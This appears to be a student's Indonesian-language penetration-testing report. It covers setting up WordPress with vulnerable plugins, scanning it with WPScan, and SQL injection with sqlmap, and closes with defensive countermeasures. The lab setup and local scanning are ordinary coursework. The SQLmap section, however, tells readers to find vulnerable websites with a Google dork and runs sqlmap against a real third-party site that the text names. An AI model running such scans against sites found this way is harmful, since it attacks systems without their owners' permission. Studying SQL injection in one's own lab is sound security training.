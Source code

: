 ## Tugas 2

### Pendahuluan
Pada Tugas 2 kami akan mencoba penetrasi aplikasi web berbasis wordpress dengan memanfaatkan beberapa plugin yang vulnerable atau berpotensi untuk diserang dengan teknik SQL Injection. Dalam percobaan yang kami lakukan kami menggunakan beberapa tool untuk mencoba SQL Injection.

### Dasar Teori
#### SQL Injection
SQL Injection merupakan teknik mengeksploitasi aplikasi web yang didalamnya menggunakan database untuk penyimpanan data.  Aksi hacking / attacking dengan SQL injection dapat dilakukan pada aplikasi client ketika masukan pengguna tidak disaring secara benar dari string yang dikirim dan dieksekusi dalam pernyataan SQL atau masukan pengguna tidak berisi yang semestinya dan sehingga saat dijalankan hasilnya tidak sesuai harapan.

#### Ubuntu Server
Ubuntu Server adalah sistem operasi distribusi linux yang berasal dari sistem operasi ubuntu tanpa tampilan GUI desktop

#### Wordpress
WordPress adalah sebuah aplikasi sumber terbuka (open source) yang sangat populer digunakan sebagai mesin blog (blog engine). WordPress dibangun dengan bahasa pemrograman PHP dan basis data (database) MySQL. PHP dan MySQL, keduanya merupakan perangkat lunak sumber terbuka (open source software).

#### SqlMap
SQLMap adalah alat uji penetrasi open source yang mengotomatisasi proses mendeteksi dan mengeksploitasi kelemahan injeksi SQL dan mengambil alih basis data server. 
  
#### WPScan
WPScan adalah scanner keamanan yang memeriksa keamanan WordPress menggunakan metode “black box”.

### Uji Penetrasi
#### install apache2
```bash
sudo apt-get install apache2 apache2-utils
sudo systemctl enable apache2
sudo systemctl start apache2
```

#### install mysql
```bash
sudo apt-get install mysql-client mysql-server
sudo mysql-secure-isntallation
```

#### install php and modules
```bash
sudo apt-get install php7.0 php7.0-mysql libapache2-mod-php7.0 php7.0-cli php7.0-cgi php7.0-gd  
sudo nano /var/www/html/info.php buat ngetes
```

#### install wordpress cms
```bash
wget -c http://wordpress.org/latest.tar.gz
tar -xzvf latest.tar.gz
```

```bash
sudo rsync -av wordpress/* /var/www/html/
```

```bash
sudo chown -R www-data:www-data /var/www/html/
$ sudo chmod -R 755 /var/www/html/
```

#### create wordpress database

```bash
mysql -u root -p
mysql> CREATE DATABASE wp_myblog;
mysql> GRANT ALL PRIVILEGES ON wp_myblog.* TO 'your_username_here'@'localhost' IDENTIFIED BY 'your_chosen_password_here';
mysql> FLUSH PRIVILEGES;
mysql> EXIT;

sudo mv wp-config-sample.php wp-config.php
```
#### configurasi wordpress

jalankan secure values dari wordpress secret key generator

```bash
curl -s https://api.wordpress.org/secret-key/1.1/salt/
```
dan copy hasil ouput dari perintah di atas pada bagian yang menyerupai hasil output pada file wp-config.php
ubah wp-config.php sesuai database

```bash
sudo systemctl restart apache2.service 
sudo systemctl restart mysql.service 
```
buka localhost/wp-admin/setup-config.php
buat user
login

![alt text](https://github.com/dwikasm/pksj/blob/master/file_assets/wordpress/wp1.png)

#### install plugin
```bash
cd /var/www/html/wp-content/plugins
sudo wget -c https://downloads.wordpress.org/plugin/player.1.5.16.zip
sudo wget -c https://downloads.wordpress.org/plugin/leaguemanager.3.9.1.1.zip

sudo apt-get install unzip

sudo unzip player.1.5.16.zip
sudo unzip leaguemanager.3.9.1.1.zip
```

buka halaman wordpressnya, login
pilih plugins, installed plugins
aktifkan plugins yang sudah diinstall

![alt text](https://github.com/dwikasm/pksj/blob/master/file_assets/wordpress/wp2.png)

#### WPSCAN
Install file yang dibutuhkan
```bash
sudo apt-get install git
sudo apt-get install libcurl4-openssl-dev libxml2 libxml2-dev libxslt1-dev ruby-dev build-essential libgmp-dev zlib1g-dev
```

Clone git project wpscan
```bash
git clone https://github.com/wpscanteam/wpscan.git
cd wpscan
sudo gem install bundler && bundle install --without test development
```

Jalankan menggunakan ruby
```bash
unzip data.zip
ruby wpscan.rb -u 192.168.56.103 --enumerate vp
```
![alt text](https://github.com/dwikasm/pksj/blob/master/file_assets/wpscan/1.png)
![alt text](https://github.com/dwikasm/pksj/blob/master/file_assets/wpscan/2.png)
![alt text](https://github.com/dwikasm/pksj/blob/master/file_assets/wpscan/3.png)
![alt text](https://github.com/dwikasm/pksj/blob/master/file_assets/wpscan/4.png)
![alt text](https://github.com/dwikasm/pksj/blob/master/file_assets/wpscan/5.png)

#### SQLmap
Clone git project sqlmap
```bash
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
```

Cari website yang vulnerable melalui google dengan cara
```bash
inurl:index.php?id=
```

Jalankan sqlmap menggunakan python
```bash
cd sqlmap
python sqlmap.py -u 'http://www.icdcprague.org/index.php?id=10'
```

![alt text](https://github.com/dwikasm/pksj/blob/master/file_assets/sqlmap/1.png)
![alt text](https://github.com/dwikasm/pksj/blob/master/file_assets/sqlmap/2.png)
![alt text](https://github.com/dwikasm/pksj/blob/master/file_assets/sqlmap/3.png)
![alt text](https://github.com/dwikasm/pksj/blob/master/file_assets/sqlmap/4.png)
![alt text](https://github.com/dwikasm/pksj/blob/master/file_assets/sqlmap/5.png)
![alt text](https://github.com/dwikasm/pksj/blob/master/file_assets/sqlmap/6.png)
![alt text](https://github.com/dwikasm/pksj/blob/master/file_assets/sqlmap/7.png)

### Kesimpulan

#### Defense
Dalam laporan ini kami sudah menerangkan pengertian dari masing2 tool dan bagaimana cara SQL Injection bekerja. Pada dasarnya SQL Injection bekerja dengan cara memasukkan perintah SQL pada kolom inputan yang ada pada aplikasi web yang rentan. Kunci utama dalam mengatasi celah seperti ini adalah dengan mengamankan dan memvalidasi kolom input dan menghentikan perintah SQL yang tidak semestinya dijalankan pada database.

#### Countermeasure
Terdapat beberapa hal yang dapat kita lakukan dalam pencegahan SQL Injection. Berikut beberapa countermeasure yang dapat kita lakukan: 
* Source code review.
* Membersihkan dan memvalidasi kolom input.
* Tolak entry yang terdapat data binary, tolak karakter sequence dan comment.
* Memeriksa privilege user saat mengakses database.
* Password yang kuat pada akun administrator
* Menggunakan IDS intrusion prevention tool seperti snort pada jaringan
* Menggunakan algoritma hash dalam penyimpanan data yang sensitif
* Terapkan pemberian privilege rule pada saat user mengakses database
